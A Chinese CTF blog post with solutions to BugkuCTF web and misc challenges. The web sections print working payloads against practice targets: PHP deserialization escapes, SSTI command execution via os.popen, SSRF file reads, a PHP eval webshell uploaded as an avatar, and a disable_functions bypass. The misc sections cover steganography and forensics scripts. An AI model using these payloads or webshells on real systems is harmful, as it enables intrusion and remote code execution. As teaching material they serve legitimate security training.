<!--yml
category: 未分类
date: 2022-04-26 14:29:06
-->

# BugkuCTF 部分题解(一)_z.volcano的博客-CSDN博客_bugkuctf

> 来源：[https://blog.csdn.net/weixin_45696568/article/details/111413521](https://blog.csdn.net/weixin_45696568/article/details/111413521)

之后的wp会写在[BugkuCTF 部分题解(持续更新)](https://blog.csdn.net/weixin_45696568/article/details/122243131)

# WEB

## newphp

题目源码如下：

```
<?php

header("Content-type: text/html; charset=utf-8");
highlight_file(__FILE__);

class evil{
    public $hint;

    public function __construct($hint){
        $this->hint = $hint;
    }

    public function __destruct(){
    if($this->hint==="hint.php")
            @$this->hint = base64_encode(file_get_contents($this->hint)); 
        var_dump($this->hint);
    }

    function __wakeup() { 
        if ($this->hint != "╭(●｀∀´●)╯") { 

            $this->hint = "╰(●’◡’●)╮"; 
        } 
    }
}

class User
{
    public $username;
    public $password;

    public function __construct($username, $password){
        $this->username = $username;
        $this->password = $password;
    }

}

function write($data){
    global $tmp;
    $data = str_replace(chr(0).'*'.chr(0), '\0\0\0', $data);
    $tmp = $data;
}

function read(){
    global $tmp;
    $data = $tmp;
    $r = str_replace('\0\0\0', chr(0).'*'.chr(0), $data);
    return $r;
}

$tmp = "test";
$username = $_POST['username'];
$password = $_POST['password'];

$a = serialize(new User($username, $password));
if(preg_match('/flag/is',$a))
    die("NoNoNo!");

unserialize(read(write($a))); 
```

先从evil类看起，里面的`file_get_contents`函数读取`$this->hint`指向的文件，这里已经给出提示让读取`hint.php`，先构造这部分的payload

还要绕过一下后面的`__wakeup()`，将**对象属性个数值**改大一点就行了，我这里改成2。

```
O:4:"evil":2:{s:4:"hint";s:8:"hint.php";} 
```

然后看一下user类，注意到`read()`方法中有`$r = str_replace('\0\0\0', chr(0).'*'.chr(0), $data);`，很明显这里是字符串逃逸，可以参考我的[另一篇博客](https://blog.csdn.net/weixin_45696568/article/details/113107539)。

这里对应的是**字符变少**的情况，有`username`和`password`两个可控参数，先看一下user类触发的payload


此时是`O:4:"User":2:{s:8:"username";s:5:"admin";s:8:"password";s:41:"O:4:"evil":2:{s:4:"hint";s:8:"hint.php";}";}`，如果稍作替换，让`";s:8:"password";s:41:"`这部分也被读进`username`。

因为这部分的长度是23，每一个`\0\0\0`可以逃逸3个字符，所以在传password的时候要多加一个字符，凑够24,同时username传入24个`\0`。

payload如下：

```
POST:
username=\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0&password=1";O:4:"evil":2:{s:4:"hint";s:8:"hint.php";} 
```

然后得到一串base64编码，解码得到提示，于是查看`/index.cgi`

```
<?php
 $hint = "index.cgi"; 
```


结合提示，发现这里是ssrf，用伪协议读一下`/flag`

最后不能直接读，需要截断一下，原理参考`CRLF 注入`，这里借鉴了[这篇博客](https://cloud.tencent.com/developer/article/1437452)。

```
url/index.cgi?name=%0Afile:
url/index.cgi?name= file: 
```

## bp

看题目名应该是让爆破的，不过字典跑完了都没跑出来，可能是字典里没有，也可能是正确的报文长度和错误都一样

后面放出了提示：**zxc???**
直接盲猜一手**zxc123**，对了。。。

## game1

审源码注意到

故意玩输，在提示失败的时候注意下network
根据刚才的源码，可以知道`sign`的值是`zM+base64(score)+==`

抓包修改，然后提交，记得连着sign的值也要改掉


## Simple_SSTI_1

5分的一个题目，而且奖励的金币正好等于开容器的金币，很友好

页面提示传入参数flag

> You need pass in a parameter named flag。

F12查看源码得到第二个提示

SECRET_KEY(秘钥)是Flask中重要的一个配置值，在这题，构造语句查看它，得到flag

也可以构造`?flag={{config.items()}}`,导出所有config变量，其中就包括SECRET_KEY

## Simple_SSTI_2

payload：`?flag={{ config.__class__.__init__.__globals__['os'].popen('cat flag').read() }}`

## 聪明的php

进入页面，提示我们传入参数

> pass a parameter and maybe the flag file’s filename is random :>

于是传入一个1试试，得到源码
然后传值，试试`{}`标记变量边界来解析，达到代码执行的目的，发现成功解析

php提供4种方法执行系统外部命令：`exec()、passthru()、system()、 shell_exec()。`

这里禁了`system`和`exec()`,也就是说只能使用`passthru()`

查看根目录发现这个`_15849`很奇怪，查看后拿到flag


## xxx二手交易市场

这个题印象比较深，是内测的时候出的一个题，我当时试了半小时就放弃了，然后我同学坚持不懈最终拿了一血

首先账号123456、密码123456登录进去(当时是爆破出来的，弱口令yyds)，发现可以上传头像

先上传一个**正经图片**，抓包分析发现图片是转为base64形式后上传的


写个一句话`<?php eval($_POST['123']);?>`,转为base64`PD9waHAgZXZhbCgkX1BPU1RbJzEyMyddKTs/Pg==`，再把文件格式改成php，记住文件路径


然后得到flag


## 社工-伪造

开启环境，输入小号的qq号

进入界面，发现我小号的网名和头像被爬取到了


查看小美的空间，得到关键信息，只有她男朋友要才给flag

同时也给出她男朋友的qq号，盗号显然不是这题的解法，题目名是**伪造**，于是把小号的头像和网名换成她男朋友的同款，然后重新登录聊天室

我换头像之后，在火狐浏览器重新登陆，显示的还是之前的头像，换成谷歌浏览器之后就好了。

## web40

f12查看源码，看到**假的flag**和提示`tig`

不太理解这个提示是什么意思，查看`robots.txt`也没有内容，用御剑扫一下，然后确定是git源码泄露，使用[Git_Extract](https://github.com/gakki429/Git_Extract)

```
┌──(volcano㉿kali)-[~/桌面/Git_Extract]
└─$ python git_extract.py http://114.67.246.176:11496/.git/ 
```

然后得到flag和三个假flag

## 社工-初步收集

这题挺杂的，涉及web+re+misc

打开网页→下载辅助，打开软件发现是个钓鱼软件，满满的回忆感，六年级的时候和同学一起用易语言写过一个类似的

根据经验，这种软件会把受害者输入的qq及密码发送到指定邮箱里，用IDA分析能够得到想要的信息，因为我不会逆向，所以让朋友帮忙，最后得到三条有用信息

> bugkuku@163.com
> BIPHIVHSLESYPHMZ
> smtp.163.com

前两条疑似账号密码，直接去163邮箱登录发现密码错误，后面百度了一下第三条信息，发现可能需要用邮箱客户端登录

我这里下载的是`foxmail`,配置如下，成功登录进去

收信箱里没找到可用信息，后面问了一下师傅们，发现有解题线索的那篇邮件被人恶意删除了，那个线索也是简单的搜集可用信息，我也留下线索希望能帮到后面做题的师傅们

拿到这两个信息，一般可以用来当做账号密码登录，猜想刚才的网站有后台，尝试/admin

登陆后拿到flag

## No one knows regex better than me

```
<?php 
error_reporting(0);
$zero=$_REQUEST['zero'];
$first=$_REQUEST['first'];
$second=$zero.$first;
if(preg_match_all("/Yeedo|wants|a|girl|friend|or|a|flag/i",$second)){
    $key=$second;
    if(preg_match("/\.\.|flag/",$key)){
        die("Noooood hacker!");
    }else{
        $third=$first;
        if(preg_match("/\\|\056\160\150\x70/i",$third)){
            $end=substr($third,5);
            highlight_file(base64_decode($zero).$end);
        }
    }
}
else{
    highlight_file(__FILE__);
} 
```

逐块分析
1、传入参数`zero`与`first`,将二者拼接后传值给`$second`

```
$zero=$_REQUEST['zero'];
$first=$_REQUEST['first'];
$second=$zero.$first; 
```

2、第一个正则匹配

```
if(preg_match_all("/Yeedo|wants|a|girl|friend|or|a|flag/i",$second)) 
```

`$second`中，即拼接后的结果里要至少有上述内容中的一项
3、第二个正则匹配

```
if(preg_match("/\.\.|flag/",$key)){
        die("Noooood hacker!");
    } 
```

当`$key`即(**$second**)中有`..` 或`flag`时被过滤
4、第三个正则匹配

```
$third=$first;
        if(preg_match("/\\|\056\160\150\x70/i",$third)){
            $end=substr($third,5);
            highlight_file(base64_decode($zero).$end);
        } 
```

这里比较有意思了，我开始以为这里是匹配的`\` 或`.php`，测试后发现匹配的是`|.php`,因为`\\|`转义成`\|`后，又转义了一次，最后变成`|`，然后和后面的`.php`拼接成`|.php`

所以`$first`的值为`|.php`
易知`$zero`的值为`ZmxhZy5waHA` (flag.php经过一次base64编码)

回到第一个正则匹配，需要满足条件才能进入后面的匹配，这里比较有意思的是`ZmxhZy5waHA`中恰好有一个`a`

所以最终payload:

```
?zero=ZmxhZy5waHA&first=|.php
或者
POST:zero=ZmxhZy5waHA&first=|.php 
```

## 冬至红包

```
<?php
    error_reporting(0);
    require __DIR__.'/flag.php';

    $exam = 'return\''.sha1(time()).'\';'; 

    if (!isset($_GET['flag'])) {   
        echo '<a href="./?flag='.$exam.'">Click here</a>';
    }
    else if (strlen($_GET['flag']) != strlen($exam)) {   
        echo '长度不允许';
    }  
    else if (preg_match('/`|"|\.|\\\\|\(|\)|\[|\]|_|flag|echo|print|require|include|die|exit/is', $_GET['flag'])) {
        echo '关键字不允许';
    }
    else if (eval($_GET['flag']) === sha1($flag)) {
        echo $flag;
    }
    else {
        echo '马老师发生甚么事了';
    }

    echo '<hr>';

    highlight_file(__FILE__); 
```

这题比较难搞的一点是

```
 else if (eval($_GET['flag']) === sha1($flag)) {
        echo $flag; 
```

这里的if条件是**flag变量执行后，强等于它的sha1值**，这个条件我感觉实现不了。。。

又仔细看了一下，发现可以从`eval($_GET['flag']`入手，达到`echo $flag`的目的。

因为前面把`echo`过滤了,这里使用**短标签绕过**

```
这题想要执行<?php echo $flag;?>

使用短标签<?=$flag;?> 
```

因为`flag`也被过滤了，所以还要进一步修改，这里还利用了`双$$变量覆盖`

```
先传入?flag=$a=flad       
然后传一个$a{3}=g    
这个时候$a=flag    $$a=$flag
然后执行<?=$$a;?>   即可 
```

然后就开始构造payload

```
首先是?flag=$a=flad;$a{3}=g;?>

这样写和eval函数解析方式有关系

然后再接上<?=$$a;?>
此时?flag=$a=flad;$a{3}=g;?><?=$$a;?>
总长度为27，还需要填充49-27=22个字符，填充的位置有好几种:

?flag=$a=flad;$a{3}=g;?>1111111111111111111111<?=$$a;?>
?flag=$a=flad;$a{3}=g;?><?=$$a;?>1111111111111111111111
?flag=$a=flad;$a{3}=g;?><?=$$a;111111111111111111111;?>
?flag=$a=flad;111111111111111111111;$a{3}=g;?><?=$$a;?> 
```

然后就得到flag了

## Flask_FileUpload

萌新友好题


## getshell

打开环境，看到被混淆后的PHP代码

参考[大佬的博客](https://www.52pojie.cn/thread-1074918-1-1.html)解混淆得到

```
<?php
highlight_file(__FILE__);
@eval($_POST[ymlisisisiook]);
?> 
```

蚁剑连接后，发现只能访问html目录下的文件

查看phpinfo，发现禁了大批函数，包括常用的`system`、`exec`等
不过没有禁`putenv`，参考[蚁剑插件之绕disable_functions](https://blog.csdn.net/zlzg007/article/details/108462813)

选择LD_PRELOAD方法→开始

然后连接新上传的这个`.antproxy.php`


此时就可以访问根目录拿flag了

# MISC

## 超简单隐写

盲水印+base64隐写

## where is flag 4

直接base64解会得到一堆乱码，看一下对应的十六进制的值，发现奇数位连起来是504b0304，zip文件头

写脚本，运行后解压得到flag

```
s='5d0346b8073d0c4a114c01050328050c0e810f0cff0c94986e3a5e38105909b837edd98b35880d040d090c093f89080203010607068d0c0a0e02040a6c626dcb6e116c7f25ef734e7c817f434cbec2bf449141caabfa0be2c998468b8bdfcff4c3a62ffb28ddc7a64cbaa7dc8accc2fe40fa8dbdc0fcc09ecafdcef3ceeec9c84cbf8dfd4af3cdbf29fc84aa2ff50d1f47adab51011ad051c34f68711e65ce76147eab5a226ee466ea48554fcd62af72945aec602a9ddf62082d0808520549b907170e241a4709041c4d0e0d0923030e0a840606f006909e6538503e1e580cb533ebdc8a3380000d03040e0d3e80010b0301080b0b860d0223480a0c020e070000030d0c000d040b2e060d0e0d0903000e0c0405030a080a6e626ec26b16697028ec7f4e798e72480ba9090c210803080a080d020b04030a0a1e0e0f1b850f073e2b6e76beee1fc1aa48d700d7720c1fa71d69515a011ad9af4cdd0cdb7e051118f6d43078d96c85ad38d809d07e071a5c0947b20252046e040e07090b000b0d07110d01031e0c0659a90a0d0c000c0d5cec090b0404070a03030f0e'

x = s[::2]
f = open('flag.zip','wb')
for i in range(0,len(x),2):
    j = int(str(x[i:i+2]),16)
    f.write(j.to_bytes(1,'big'))
f.close() 
```

## 小美的秘密part2

先分析**公司_资料**文件夹下的200个txt，发现主题内容是对应数字的md5值，不过前**124**个文件中，开头有一个`空格或tab`

写脚本，开头为空格的代表0，tab代表1，拿到的二进制转十六进制，得到`1071011211237310710750484848125`，ascii转字符得到压缩包密码`Ikk2000`

```
import hashlib

_path=r"公司_资料\XXX"
for i in range(1,201):
    path=_path+str(i)+"EEE.txt"
    f=open(path,"r")
    s=f.read()

    if " " in s:
        print(0,end="")
    elif ord(s[0])==9:
        print(1,end="")

print()
x="107 101 121 123 73 107 107 50 48 48 48 125"
lt=list(x.split(" "))
for i in lt:
    print(chr(int(i)),end="") 
```

解压出`imageIN.png`和`thekey.txt`，图片里藏了个hint.txt，大概意思是提示`图片名很重要`，搜索imageIN可以发现这是一个隐写软件，从图片中解出一个password.txt

里面有一段盲文，解密的话还需要找出密码，从thekey.txt里找，作者给出了提示，这段bf代码缺失了一部分，需要补全

这里结合bf的特点，猜想是头部缺了一定数量的`+`,具体数量应该是15个(看上图)，补全后运行得到

这里在解盲文的时候发现报错，说明这里应该有零宽字符，[在线解密](http://330k.github.io/misc_tools/unicode_steganography.html)得到真正的密码：`bugku233_`

再次解盲文得到flag

## beautiful_sky

用`baeutiful_sky`作为密码解压beautiful_sky.zip，得到一个图片(之前做的时候第一个压缩包都没解开，偶然发现题目描述那里是b`ae`utiful而不是b`ea`utiful)

图片尾部有doc文件的数据，提取出来保存，发现需要密码，注意到图片右上角有一句`decencoded_by_we1`,使用密码`we1`解开doc

文字颜色被改成白色了，换个颜色就能看到，直接复制只能复制前半部分，后半部分文字下面有虚线，不清楚原理，用格式刷处理一下就能全部复制了

base58 base64各解密一次，拿到zip文件的数据，加密了

结合出题人给的提示，可以解出密码为`llllovewe1`

解压得到的flag.txt里面有零宽字符，[在线网站](http://330k.github.io/misc_tools/unicode_steganography.html)解一下拿到flag

记得都勾选上


## 清凉一夏

扫码拿到`happyctf`，图片尾部有压缩包的数据，提取出来拿这串字符解压得到一张jpg图片，自己补上文件头，改图片高度，得到一串rabbit密文

```
U2FsdGVkX1+/JVhJjnTXAwi5whdn+Nuw 
```

[在线网站](https://www.idcd.com/tool/encrypt/rabbit)解密，解出的结果base64解密得到`flag`，jphs隐写解密得到flag

## 流量里的二维码

基本都是ICMP协议

发现reply的数据中，ttl都是64，那就单独看request的数据

因为题目名提示了，要找出隐藏的二维码，所以优先考虑二进制数据，不过这里并没有找到，于是把目光放在ttl的值上。

先用tshark把这些值提取出来

```
tshark -r wireshark.pcap -Y "ip.src == 172.17.0.3" -T fields -e "ip.ttl" > 1.txt 
```

发现最大值为255，转化为二进制就是8个1

写脚本把每一行的数据都转为`八位的二进制`，发现总长度是`488`，最开始考虑的是把最后四位删去，画一个22*22的二维码，结果发现缺失了一部分

放大看可以知道是左侧和上面各缺了一行，也就是缺了23+22=45,而488-4+45=529，正好满足23*23

```
from PIL import Image

f=open("1.txt","r")
MAX = 22  
img = Image.new("RGB",(MAX,MAX))
str=""

for line in f.readlines():
    line=line.replace("\n","")
    str += bin(int(line))[2:].zfill(8)

str=str[:-4]
i = 0
for y in range (0,MAX):
    for x in range (0,MAX):
        if(str[i] == '1'):
            img.putpixel([x,y],(0, 0, 0))
        else:
            img.putpixel([x,y],(255,255,255))
        i = i+1
img.show()
img.save("flag.png") 
```

本来打算修复一下的，结果发现`qr research`能直接扫出来…

```
flag{ttleasy} 
```

## 简单套娃plus

提示：`第一层套娃是个大个子， 用长长的云杉木板制作。 从中间把它打开， 发现了第二层套娃。 第二层套娃个子中等， 腹中空空什么也找不到。 往深处仔细看了又看， 在外面找到了第三层套娃。 第三层套娃是双胞胎， 一个展露在外，一个藏在影子中。 总觉得仿佛有哪里不一样， 其中藏着第四层套娃。 第四层套娃个子最小， 她的嘴巴咧开到耳根。 是不是有什么话想说呢， 或许连话的个子都很小呢。`

附件是一个图片，根据第一层提示里的`长长的云杉木板(Long spruce boards)`，可以知道第一层是LSB，并且后面提到了从中间打开，所以开头看不出东西，save bin保存后直接foremost。

于是得到了另一张图片，来到了第二层套娃，用tweakpng打开图片，发现倒数第二个IDAT块的长度未达到上限，最后一个IDAT的长度又很大，应该有问题。

直接binwalk分离，在`1735C`中得到一个`3.bmp`

根据第三层套娃的提示可以知道，这个图片中还隐藏了一张相似图片，发现是`ntfs隐写`，用`NtfsStreamsEditor2`提取出隐写的图片。

根据提示，两张图片不一样的地方藏着第四层套娃，写脚本发现两张图片相同位置的值还是有细微差别的，并且差值均不大。

最后不知道怎么处理这一串四进制，就参照八神的脚本写了：

```
r1=open("3.1.bmp","rb").read()
r2=open("3.2.bmp","rb").read()

l=len(r1)
flag=[]
for i in range(l):
    a=int(r1[l-i-1])
    b=int(r2[l-i-1])
    flag.append(str((b-a)%256))
b=b''
for i in range(0,len(flag),4):
    s="".join(reversed(flag[i:i+4]))
    n=int(s,4)
    b=n.to_bytes(1,'big')+b

out=open("out","wb")
out.write(b) 
```

得到的文件binwalk一下，将`tar.gz`解压，得到无后缀文件`246`，用010打开，手动处理或者binwalk，得到`4.png`，用010打开发现有7z的数据塞到IDAT块中。

把这部分数据提取出来，解压即可得到flag。

```
flag{Matryoshka_Universe_Makes_U_Zoom_In} 
```

## Snowfall

挺费劲一个题，才给15分。。。。

首先不要被题目名给误导，虽然看起来很像**SNOW**隐写，但是用SNOW.EXE解不出来的

先看step1，里面有很多空格和tab，写脚本提取(其实这里也是whitespace)

```
 s=open("step1.txt","rb").read()
 a=""
 for i in s:
     if i==32: 
         a+="0"
     elif i==9: 
         a+="1"
     elif i==10: 
         a+=" "
for i in a.split(" 1 "):
    i=int(i,2)
    print(chr(i),end="") 
```

输出结果：

> OK now you can run whitespace code. By the way, the key is H0wt0Pr1ntAWh17e5p4ceC0de.

拿到一个key： `H0wt0Pr1ntAWh17e5p4ceC0de`

同时这里也给了提示：`whitespace`，查到一个[在线网站](https://vii5ard.github.io/whitespace/)。

直接把**step2.txt**里的内容放进去，run一下发现很明显是一个压缩包
这里建议自行查看wiki理解：[https://zh.wikipedia.org/wiki/Whitespace](https://zh.wikipedia.org/wiki/Whitespace)

这里也可以对照右半部分看，结合评论区师傅的指点

> push:将数字压入栈顶
> printc:将栈顶元素弹出并以ASCII字符形式输出
> dup:复制栈顶元素后压入栈顶
> drop:弹出栈顶元素
> add:将堆栈最上方的两个元素弹出，二者做加法运算,得到的结果入栈

举个例子，依次看标记的这几处，0和55依次入栈，然后二者相加，结果55入栈，此时栈顶元素是`55`，`printc`输出`chr(55)`，接着175,188,122依次入栈，紧接着三个printc输出`chr(122)`、`chr(188)`、`chr(175)`。这里记录下每一次输出对应的数字，即chr()里面的内容即可。


这里的例子仅是为了帮助理解，其实可以在网站中点step一步步看，箭头所指处即使是栈中元素的状态。


当然也可以像第一题一样写脚本提取出数据，或是直接照着规律手撸，就不赘述了。

```
x=[55,122,188,175,175-136,28,0,4,233,178,103,148,176,0,0,0,0,0,0,0,106,0,0,0,0,0,0,0,205,61,162,91,148,163,10,161,6,123,111,146,146+49,146+49+34,199,77,197,176,226,227,44,177,43,96,96+65,183,25,95,211,125,125+96,70,102,117,157,157+62,2,113,89,134,199,190,90,208,208-95,208-95-111,30,131,134,158,192,184,130,200,200-151,95,169,69,184,36,202,202-133,2,2+67,160,13,36,13,176,115,55,167,181,220,220-76,24,156,128,159,52,143,143-79,170,177,64,129,83,122,169,169+83,159,170,33,201,53,141,86,73,35,149,56,209,111,227,46,146,218,18,60,77,165,165-142,248,248-210,248-210+175,201,136,18,18+231,150,90,225,225+30,225+30-60,101,23,65,13,144,238,93,93-62,93-62+119,182,136,40,73,137,105,218,218-218,0+3,2,92,123,123+127,128,137,207,217,187,15,15+187,15+187-48,187,172,229,221,223,77,58,56,62,234,238,238-63,206,236,90,65,197,234,53,242,98,189,93,69,135,58,1,1+3,6,0,1,9,128,176,0,7,11,1,1-1,2,2+34,6,6+235,7,1,18,18+65,15,181,85,78,250,249,198,199,186,171,74,81,185,17,229,245,136,33,33,1,0,0+1,1-1,0+12,128,162,131,85,0,8,10,1,1+125,78,78-65,98,0,0,5,1,1+16,19,0,102,0,108,0,97,0,103,0,46,0,116,0,120,0,116,0,0,0,25,0,20,10,1,0,50,92,151,50,148,119,119+96,1,21,6,6-5,0,0+32,0,0,0,0,0]

f=b''
for i in x:
    f += i.to_bytes(1,'big')

out=open("1.7z","wb")
out.write(f) 
```

前面得到的key就是压缩包的密码，解压得到flag.txt。里面依旧是`whitespace`，照着前面的步骤再来一遍即可。

解法有很多种，有师傅提示我可以`改源代码`、`借助汇编命令`等，改源代码的话是比较快的，一血师傅就是这样做的，具体的可以去看他的wp。具体原理就是对于每一个弹出的数字a，这里输出的是chr(a)，即对应字符，因为这个网站是基于js写的，所以可以修改`ws_ide.js`中`printc`对应的代码，使其直接输出数字a或是a对应的十六进制值。

包括最后一步的flag.txt，没有printc指令，而是替换成了drop指令，可以把step2.txt中的`\n\n替换为\t\n` ，就可以直接输出flag。

## 虎符

拿到一个wim文件，直接解压，也可以binwalk梭出来。得到两个文件夹，先看“左”。

图片文件尾部有额外数据，提取出来是一个加密的压缩包，hint.txt给了提示：

> hint: password并不单一
> password: 王大 王井 王井

这个是当铺密码，解出来是`65 68 68`，不过换了几种形式提交都不正确，这里的并不单一也不知道是什么意思，然后就扔着不做了，之后才知道要把三组数分别ascii转字符，再拼在一起，即压缩包密码：`ADD656868`

解压得到

上面一行拿去unicode解码，得到`ctf.ssleye`，指的是一个网站，里面有很多工具，结合提示中的**注意关键字**，指的就是这个网站里的[关键字密码](http://ctf.ssleye.com/keyword.html)

因为这里是左半部分，所以秘钥是left… 解密得到一部分flag：`HUFU_LEFT&`

再去看另一个文件夹，也是一个加密的压缩包和一个图片，用`tweakpng`打开，发现作者使用过这个软件，百度一下得知，这里是**图层隐写**

下载这个软件，操作一手拿到压缩包密码`y0u_f1nd_me`,再base64解码得到`this_is_right_flag:&rgb_right_hufu`

flag：`bugku{HUFU_LEFT&&rgb_right_hufu}`

## 蜜雪冰城~

看txt，里面只有(0, 0, 0)和(255, 255, 255)，(0, 0, 0)是黑色，替换成1，(255, 255, 255)是白色，替换成0。

然后得到一串二进制，转字符得到`SlientEye{1251521mxbctmm}`，很明显的提示了，去解密。

下载得到一个音频文件，先看频谱图，尾部有摩斯密码

> – .–. …-- … - . --. — … … … .-… — …- . -.-- — …- -.-- — …- .-… — …- . – .

解密拿到隐写的密码

然后解密，得到`flag{1251_521_m1xueb1n9chen9ti@nm1mi}`


## 聊天

内存取证，先foremost一下尝试非预期，得到一个加密的压缩包，很明显flag就在里面，需要找到密码

这里说换个形式，猜想是在图片里面，随后又发现一张可疑的图片

思路清楚了(非预期不了了)，开始取证，这个图片是jpg格式，查找一下

```
python vol.py -f win7.vmem --profile=Win7SP1x64 filescan | grep "jpg" 
```

发现有三张图片，结合作者给的提示 `微信ID\FileStorage\Temp`，把正确的图片dump出来

```
python vol.py -f win7.vmem --profile=Win7SP1x64 dumpfiles -Q 0x0000000027e7a300 -D ./ 
```

我这里是保存在**当前目录**下的。于是得到密码`Q1Da1A1qINgDeT0KeI1`

解压得到flag.txt

> bugku{s1mple_D1gital_f0rens1cs_%s_%s_%s}(qqnumber,qqname,wechatpicxorvalue(HEX,lowercase))

这里还需要找到一个qq号，但是题目中并没有给提示，刚才dump图片的时候，也没发现有用的信息，所以试着从压缩包这里找一下

这里发现一个qq号：`54297198`，还需要他的网名，但是他设置了权限，没办法查找，这里有一个小细节，他是在bugku官方群里的，加群即可获得他的信息hhh


```
bugku{s1mple_D1gital_f0rens1cs_54297198_Xhelwer_00} 
```

## 答案

下载拿到无后缀文件**你明白吗**，改后缀为jpg，同时发现尾部有额外数据，提取出一个加密的压缩包。

同时在图片的exif信息中有

这里有点坑，常用的那个佛曰解密工具解出来是乱码，这里需要用bugku的在线工具

拿到压缩包的密码`美乐蒂卡哇伊`，先看password.txt


百度一下青花的歌词，找到[https://music.163.com/#/song?id=1384960031](https://music.163.com/#/song?id=1384960031)，每一行有两个数字，应该对应的是行列对应的字

得到密码`三匆爱温蒙惚心信承失记愈的逢过濡善着记回寞神梦`，解压得到的图片尾部有一串base64，解码拿到flag

## 攻其不备

### 注

做完这题后又下了一遍附件，发现和我之前做题时有出入，我做题时是`key.rar`，现在换成了`我说这个东西没用你信吗.zip`，但是因为我很懒，就不重做了

### 解题过程

压缩包是加密的，先看pdf

结合题目名把第一张辣眼图删去，得到第二个图，图中有个数字100

把这个图也删去，发现~~出题人和mumuzi不同寻常的关系~~ ，这里有一些emoji

一般来说，emoji加密有base100和emoji-aes两种，结合前面出现过的数字100，这里应该是`base100`，这里的图片复制不出来，所以直接对照编码表(没找见，所以直接采用最朴素的方式)

对照得到`mumuziyyds`，拿去解压压缩包，得到两个加密的压缩包

爆破第一个key.rar，得到密码`666666`，key.txt中又是一个假的密码，看了一下key.txt的文件大小也正常

暂时没其他线索了，不如把另一个压缩包也爆破了？
先是试了一下6位的纯数字和纯字母，没跑出来，后面直接自暴自弃勾选了`所有字符`。

然后，幸福来得很突然，密码是**一个空格**

打开得到的doc，看到，这里如果看不到我这样效果的话，那么去把隐藏文字打开，不知道这里为什么不好复制，我直接改文件后缀，然后去`document.xml`里提取的


> ‖♬♩‖¶♯‖♬♭‖♬♫‖♫♪♭♭♪‖♬♬‖♩¶♭♭♭‖‖♫♭♭♭♭♭∮‖♩¶♭♭♭‖‖♭♭♭♭‖‖¶‖‖‖‖¶∮‖‖¶♭♭♭‖‖♫♭♭♭♭♭∮‖♩¶♭♭♭♭♭∮‖♬♪‖‖♭‖♫♫§=

拿去音符解密得到flag：`flag{Chu_7_Bu_1_90n9_7_Bu_Be1}`

## Pokergame

从`king.jpg`中提取出加密的压缩包，**伪加密**破解后得到**code.txt**，base64转图片得到半个二维码。

再从`kinglet.jpg`提取出另外半张二维码，拼在一起，再补一下定位符。

扫码得到`key{P0ke_Paper}`，所以**Poke.zip**的密码是`P0ke_Paper`，解压得到一堆东西，k.jpg其实是个压缩包，这里已经改好了后缀。

先看`David’s words.txt`，注意到里面有一句：“`Only A is 1`”

再观察一下密文的结构，所以把**2345678910**替换成**0**，把**A**替换成**1**，然后把替换得到的二进制转为字符。

```
s="2345678910A2345678910A23456789102345678910AA2345678910A234567891023456789102345678910AAA2345678910A234567891023456789102345678910AA23456789102345678910AAA2345678910AAA2345678910AA234567891023456789102345678910AA2345678910A23456789102345678910A2345678910234567891023456789102345678910AA2345678910A2345678910AA2345678910AA23456789102345678910AAA2345678910AA23456789102345678910A234567891023456789102345678910A234567891023456789102345678910AAA23456789102345678910AAA2345678910234567891023456789102345678910AA23456789102345678910AAA2345678910AA23456789102345678910A234567891023456789102345678910A234567891023456789102345678910AAA2345678910A2345678910A2345678910AA23456789102345678910AAA23456789102345678910AA2345678910AA234567891023456789102345678910A23456789102345678910A2345678910234567891023456789102345678910AA2345678910A2345678910234567891023456789102345678910A234567891023456789102345678910AA2345678910A2345678910A2345678910AA234567891023456789102345678910A234567891023456789102345678910AA23456789102345678910AA2345678910A2345678910A2345678910A2345678910A2345678910AA23456789102345678910AAA2345678910AA2345678910234567891023456789102345678910A23456789102345678910AA23456789102345678910A23456789102345678910A2345678910A2345678910AA234567891023456789102345678910AA2345678910A2345678910A2345678910A23456789102345678910A23456789102345678910A2345678910A234567891023456789102345678910AAA2345678910AA2345678910AA234567891023456789102345678910AAAA2345678910A23456789102345678910A23456789102345678910A23456789102345678910A2345678910A234567891023456789102345678910A2345678910A2345678910AAA2345678910A234567891023456789102345678910AA2345678910AA234567891023456789102345678910AA23456789102345678910A2345678910A2345678910A2345678910AA2345678910234567891023456789102345678910AAA2345678910A234567891023456789102345678910A2345678910A23456789102345678910234567891023456789102345678910A2345678910A2345678910A234567891023456789102345678910A2345678910A2345678910A2345678910A2345678910AA23456789102345678910A234567891023456789102345678910AA23456789102345678910AA23456789102345678910A2345678910A2345678910AAA2345678910A2345678910A2345678910AAA23456789102345678910AAA23456789102345678910A23456789102345678910AA234567891023456789102345678910A2345678910A2345678910AA2345678910A23456789102345678910A234567891023456789102345678910AAA23456789102345678910AAA23456789102345678910A2345678910AAA23456789102345678910234567891023456789102345678910AA23456789102345678910A234567891023456789102345678910A23456789102345678910A23456789102345678910234567891023456789102345678910AA234567891023456789102345678910234567891023456789102345678910AAAA2345678910A"
s=s.replace("2345678910","0").replace("A","1")
for i in range(len(s)//8):
        print(chr(int(s[i*8:(i+1)*8],2)),end="") 
```

得到的结果再base64解码一次得到**Happy to tell you key is Key{OMG_Youdoit}**

所以**k.zip**的密码就是`OMG_Youdoit`，得到的**Ancient spells.txt**中给出了提示

> As long as you help me to fix, I’ll give you what you want.
> (It Is Reverse Flag)

用010打开k.jpg，高度拉高一下

注意到图片下面有点奇怪，按理说应该是对称的

Stegsolve看一手，发现确实如前面所说，结果是倒着的


可以把图片旋转一下，然后硬看，结合出题人说的`图里的0当o`、 `@ 和 a 不要看混了`、`flag错了多试几遍`，慢慢看

flag{Poker_F@ce}

## 出其不意

给了一个无后缀文件key和加密的压缩包，010查看key发现是**jpg**文件，并且文件尾部有额外数据，提取出来得到**key.txt**

> 有一天，
> 哥哥对弟弟说，让他学贝斯。
> 他就是不学，哎，就是玩。
> 又有一天，
> 哥哥对弟弟说，让他加点蜂蜜。
> 他就是不加，哎，就是玩。

这里的贝斯是提示base编码，key.jpg的exif信息中有东西

前面那个提示不知道是什么意思，反正只要是base编码就好办，**basecrack**直接梭

发现是`base58`编码，那么前面的贝斯少了6颗螺丝应该是`64-6=58`

但是一通操作猛如虎，这里得到的一个错误的密码…

参考题目名的出其不意和套神mumuzi的评论

逆向思维一波，直接把这串字符再进行一次`base58编码`，得到的结果拿去解压压缩包，密码正确.

解压出一个图片，图片名提示`画X的既不是黑也不是白`

手动把黑块换成1、白色块换成0，X就不管它

> 1100110
> 1101100
> 1100001
> 1100111
> 1111011
> 1000001
> 110001
> 1011111
> 111001
> 1011111
> 110101
> 1101000
> 110001
> 1011111
> 1110111
> 1100001
> 1101110
